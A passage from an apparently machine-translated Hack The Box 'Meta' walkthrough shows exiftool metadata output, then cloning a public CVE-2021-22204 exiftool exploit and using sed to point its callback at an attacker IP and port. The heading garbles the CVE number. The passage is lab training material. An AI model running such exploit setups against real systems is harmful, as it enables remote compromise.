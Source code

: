 ```
Gamma                           : 2.2
Pixels Per Unit X               : 4724
Pixels Per Unit Y               : 4724
Pixel Units                     : meters
Image Size                      : 200x200
Megapixels                      : 0.040
```

# CVE-2021 年至 22204 年

这是相同的信息，所以假设我们的下一步是找到一种方法来使用它，我搜索了“exiftool exploit ”,并找到了这个。在 Github 上一看发现了[这个](https://github.com/convisolabs/CVE-2021-22204-exiftool) python 漏洞。让我们抓住它:

```
┌──(root💀kali)-[~/htb/meta]
└─# git clone https://github.com/convisolabs/CVE-2021-22204-exiftool.git
Cloning into 'CVE-2021-22204-exiftool'...
remote: Enumerating objects: 27, done.
remote: Counting objects: 100% (27/27), done.
remote: Compressing objects: 100% (25/25), done.
remote: Total 27 (delta 6), reused 17 (delta 2), pack-reused 0
Receiving objects: 100% (27/27), 52.53 KiB | 1.12 MiB/s, done.
Resolving deltas: 100% (6/6), done.
```

如果需要，安装先决条件:

```
┌──(root💀kali)-[~/htb/meta/CVE-2021-22204-exiftool]
└─# apt install djvulibre-bin exiftool
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
Note, selecting 'libimage-exiftool-perl' instead of 'exiftool'
djvulibre-bin is already the newest version (3.5.28-2).
libimage-exiftool-perl is already the newest version (12.39+dfsg-1).
0 upgraded, 0 newly installed, 0 to remove and 135 not upgraded.
```

查看 exploit.py，我们需要更改 IP 和端口:

```
┌──(root💀kali)-[~/htb/meta/CVE-2021-22204-exiftool]
└─# more exploit.py
#!/bin/env python3
import base64
import subprocess
ip = '127.0.0.1'
port = '9090'
```

使用 sed 提高速度:

```
┌──(root💀kali)-[~/htb/meta/CVE-2021-22204-exiftool]
└─# sed -i 's/127.0.0.1/10.10.14.4/g' exploit.py

┌──(root💀kali)-[~/htb/meta/CVE-2021-22204-exiftool]
└─# sed -i 's/9090/1337/g' exploit.py
```
